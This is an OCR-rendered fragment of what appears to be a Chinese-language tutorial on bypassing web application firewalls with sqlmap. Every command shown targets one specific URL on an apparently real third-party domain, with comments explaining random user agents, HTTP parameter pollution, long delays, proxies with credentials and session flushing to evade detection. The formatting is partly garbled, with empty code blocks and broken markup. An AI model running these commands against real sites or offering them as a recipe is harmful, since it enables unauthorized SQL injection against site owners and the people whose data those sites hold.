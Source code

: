 root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --thread 10 --check-waf#备选



```

```

***3\***|***0\*****0x02 使用参数进行绕过**



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --random-agent -v 2 #使用任意浏览器进行绕过，尤其是在WAF配置不当的时候



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --hpp -v 3#使用HTTP 参数污染进行绕过，尤其是在ASP.NET/IIS 平台上



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --delay=3.5 --time-sec=60 #使用长的延时来避免触发WAF的机制，这方式比较耗时



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --proxy=211.211.211.211:8080 --proxy-cred=211:985#使用代理进行注入



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --ignore-proxy#禁止使用系统的代理，直接连接进行注入



```

```

root@kali:~# sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --flush-session#清空会话，重构注入



```

```
